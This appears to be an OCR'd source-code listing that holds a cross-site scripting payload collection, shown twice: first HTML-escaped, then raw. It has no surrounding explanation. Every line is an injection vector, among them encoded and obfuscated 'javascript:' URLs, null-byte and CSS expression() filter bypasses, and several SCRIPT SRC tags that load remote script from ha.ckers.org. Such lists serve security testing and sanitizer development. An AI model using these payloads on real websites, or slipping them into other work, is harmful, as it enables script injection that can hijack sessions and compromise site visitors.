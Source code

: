       &lt;SCRIPT SRC=http&#58;//ha&#46;ckers&#46;org/xss&#46;js?&lt;B&gt;
      &lt;&lt;SCRIPT&gt;alert(\"XSS\");//&lt;&lt;/SCRIPT&gt;
      &lt;SCRIPT/SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
      &lt;BODY onload!#$%&()*~+-_&#46;,&#58;;?@&#91;/|\&#93;^`=alert(\"XSS\")&gt;
      &lt;SCRIPT/XSS SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
      &lt;IMG SRC=\"   javascript&#058;alert('XSS');\"&gt;
      perl -e 'print \"&lt;SCR\0IPT&gt;alert(\\"XSS\\")&lt;/SCR\0IPT&gt;\";' &gt; out
      perl -e 'print \"&lt;IMG SRC=java\0script&#058;alert(\\"XSS\\")&gt;\";' &gt; out
      &lt;IMG SRC=\"jav&#x0D;ascript&#058;alert('XSS');\"&gt;
      &lt;IMG SRC=\"jav&#x0A;ascript&#058;alert('XSS');\"&gt;
      &lt;IMG SRC=\"jav&#x09;ascript&#058;alert('XSS');\"&gt;
      &lt;IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29&gt;
      &lt;IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041&gt;
      &lt;IMG SRC=javascript&#058;alert('XSS')&gt;
      &lt;IMG SRC=javascript&#058;alert(String&#46;fromCharCode(88,83,83))&gt;
      &lt;IMG \"\"\"&gt;&lt;SCRIPT&gt;alert(\"XSS\")&lt;/SCRIPT&gt;\"&gt;
      &lt;IMG SRC=`javascript&#058;alert(\"RSnake says, 'XSS'\")`&gt;
      &lt;IMG SRC=javascript&#058;alert(&quot;XSS&quot;)&gt;
      &lt;IMG SRC=JaVaScRiPt&#058;alert('XSS')&gt;
      &lt;IMG SRC=javascript&#058;alert('XSS')&gt;
      &lt;IMG SRC=\"javascript&#058;alert('XSS');\"&gt;
      &lt;SCRIPT SRC=http&#58;//ha&#46;ckers&#46;org/xss&#46;js&gt;&lt;/SCRIPT&gt;
      '';!--\"&lt;XSS&gt;=&{()}
      ';alert(String&#46;fromCharCode(88,83,83))//\';alert(String&#46;fromCharCode(88,83,83))//\";alert(String&#46;fromCharCode(88,83,83))//\\";alert(String&#46;fromCharCode(88,83,83))//--&gt;&lt;/SCRIPT&gt;\"&gt;'&gt;&lt;SCRIPT&gt;alert(String&#46;fromCharCode(88,83,83))&lt;/SCRIPT&gt;
      ';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
      '';!--"<XSS>=&{()}
      <SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
      <IMG SRC="javascript:alert('XSS');">
      <IMG SRC=javascript:alert('XSS')>
      <IMG SRC=javascrscriptipt:alert('XSS')>
      <IMG SRC=JaVaScRiPt:alert('XSS')>
      <IMG """><SCRIPT>alert("XSS")</SCRIPT>">
      <IMG SRC=" &#14;  javascript:alert('XSS');">
      <SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <<SCRIPT>alert("XSS");//<</SCRIPT>
      <SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
      \";alert('XSS');//
      </TITLE><SCRIPT>alert("XSS");</SCRIPT>
      ¼script¾alert(¢XSS¢)¼/script¾
      <META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
      <IFRAME SRC="javascript:alert('XSS');"></IFRAME>
      <FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
      <TABLE BACKGROUND="javascript:alert('XSS')">
      <TABLE><TD BACKGROUND="javascript:alert('XSS')">
      <DIV STYLE="background-image: url(javascript:alert('XSS'))">
      <DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
      <DIV STYLE="width: expression(alert('XSS'));">
      <STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
      <IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
      <XSS STYLE="xss:expression(alert('XSS'))">